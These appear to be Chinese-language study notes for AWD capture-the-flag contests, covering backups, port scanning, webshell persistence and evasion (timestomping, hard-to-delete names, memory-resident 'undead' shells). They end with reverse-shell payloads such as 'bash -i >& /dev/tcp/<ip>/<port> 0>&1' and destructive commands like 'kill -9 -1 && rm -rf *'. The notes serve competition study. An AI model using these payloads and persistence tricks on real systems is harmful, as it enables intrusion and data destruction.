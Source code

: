 
# 环境

## 靶机环境

如果没有安装python，可以尝试安装到有权限写入的目录：
```sh
./configure --prefix=/home/ctf/python32  
make  
make install
```



# 命令
通常用于自动化脚本编写。
#### scp
基于ssh

```sh
# 将本地文件上传到 远程ssh server 端口为12345的目录上 
scp -P 12345 /home/1.zip root@127.0.0.1:/home
```


# 防御

## 源码备份

```sh
# zip
zip -r xxx.zip ./*
unzip xxx.zip -d

# tar
tar -cvf xxx.tar ./* -p # -p 保持文件权限一致
tar -xvf xxx.tar -C /home/ctf/xxx

```

备份到本地、以及源站上`/home/xxx`目录一份，不建议备份到`/tmp`，因为攻击者通过`/var/www/`攻击的访问权限是在`/tmp`以及`/tmp/www/html`目录下
## 信息收集


```sh
id # 获取用户所在组。根据权限的不同，进行网站恢复、不死马的查杀。
ls -l /var/www/html # 获取权限 所属者 所属组
# 权限格式：所有者权限 组权限 其他用户权限


```


### 主机发现

AWD主机发现
    线下
        大家处于一个网段，根据ip划分
        nmap
    线上
        根据端口划分(web\ssh),可能有其他比赛
        scan.py

区分选手和裁判：
        check
        down
        waf
```python
import requests

ip = 'http://61.147.171.104:'

for i in range(51200,51230):
    url = ip + str(i)
    try:
        req = requests.get(url, timeout=1).text
        if '网络探测demo' in req:
            print(url + '    success')
        else:
            print(url + '    fail')
    except:
        print(url + '    error')

```

### 目录发现

```sh
# 2是标准错误输出，输出到一个不存在的路径，可以随便填，优雅点就填下面的 `/dev/null` is a special device file where any data received by the file is discarded. The null device is often known as a **black hole** as all the data that goes into it is lost forever.
find / -name 'xxx.php' 2> /dev/null  # 注意2>必须写在一起

```

## 主机恢复


```sh
# 以www-data用户执行 （比如使用蚁剑，或自建相关木马脚本然后通过网站执行）
kill -9 -1  # 终止你拥有的全部进程
rm -rf *
# 恢复
```


## 攻击

### 上传

利用内置后门
`file_put_contents('xx', base64_decode(base64_encode('TrojansContent')))`
### 防利用

#### 后门加密码

- 写死密码
- 动态密码
- MD5
- RSA密码
#### 流量混淆

难以让别人通过流量监控知道如何攻击

### 防检测防删除
#### 混淆
- 文件名混淆、或假名
#### 困难删除
- 命名：使用`     .php`或`-- -.php`等不太好手动删除的文件（但可以直接通过FTP工具删除）
- 

#### 时间变化
 有三种时间：
- atime (access time)
- ctime (change time)
- mtime (modified time)

```sh
stat <file> # 可以查看文件状态信息，包括三种时间。
touch -r <oldFile> <newFile> # 可以将`oldFile`和`newFile`时间戳同步，但changeTime似乎会修改失败。
```

#### 不死马
首先需要www-data用户对目录有写权限去上传文件。
免杀
##### 内存马
自身执行一次后，把自己删除，自身已经驻留在内存之中，可以不断执行一些复活等操作，来进行权限维持。

**防御方法**
- 使用内存马的相同的用户（不然可能没有权限），运行`kill -9 -1 && rm -rf *`
当然如果有权限可以采用下面的命令：

```sh
ps aux | grep www-data | awk '{print $2}' | xargs kill -9
#The "ps aux" command lists all running processes on the system. 
#The "|" (pipe) symbol sends the output of the "ps aux" command to the "grep www-data" command, which searches for any processes that have "www-data" in their name. 
#The output of the "grep" command is then sent to the "awk '{print $2}'" command, which extracts the second column (the process ID) from the output. 
```


- 使用条件竞争，写相同的复活脚本，同名文件，对内容进行篡改，然后复活时间小于等于内存马，可以使其失效。

### 反弹Shell
正向连接是指由客户端向服务端发起连接请求，而反向连接则是相反。在反弹shell (reverse shell) 中，由客户端监听指定的 TCP/UDP 端口，由服务端发起连接请求到该端口，建立起shell连接。与常见的 Telnet、ssh等shell相比，不同的是由服务端主动发起。
#### 适用情况
- 由于防火墙等的控制访问策略，客户端无法访问服务端，但服务端可以向外网发起请求
- IP会动态变化，攻击机无法直接连接
- 向局域网中的主机散播木马病毒等，网络环境未知的情况下
- 服务端的AV对正向连接的流量检测非常严格，但是对出网流量校验不足
#### 过程

> 不同的操作系统可能不太一样
> 在不同的反弹shell方式中，都需要攻击者（客户端）进行监听，下文将不再赘述，仅讲述不同的反弹方式
> 需要目标机触发payload造成反弹shell

```sh
# 客户端监听端口
nc -lvvp 9999
# -l           listen mode, for inbound connects
# -v           verbose [use twice to be more verbose]
# -n           numeric-only IP addresses, no DNS
# -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])
# Netcat 是 Linux 系统下常用的网络工具，当然也有Windows版本，在 Linux 下使用命令 `nc`，前面的端口监听就是使用 Netcat

# payload1 
bash -i >& /dev/tcp/<ip>/<port> 0>&1 
# payload2 
bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1"

#`/dev/tcp/IP/PORT` 特殊设备文件（Linux一切皆文件），实际这个文件是不存在的，它只是 `bash` 实现的用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。
#`>&` 将联合符号前面的内容与后面相结合，然后一起重定向给后者。
#`0>&1` 将标准输入standard input (0)与标准输出standard output (1)的内容相结合，然后重定向给前面标准输出的内容。
# -i interactive。即产生一个交互式的shell（bash）。

```


[Linux 反弹shell（二）反弹shell的本质 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2549)
其实原理就是这张图：
![](../../attachments/Pasted%20image%2020230907170754.png)
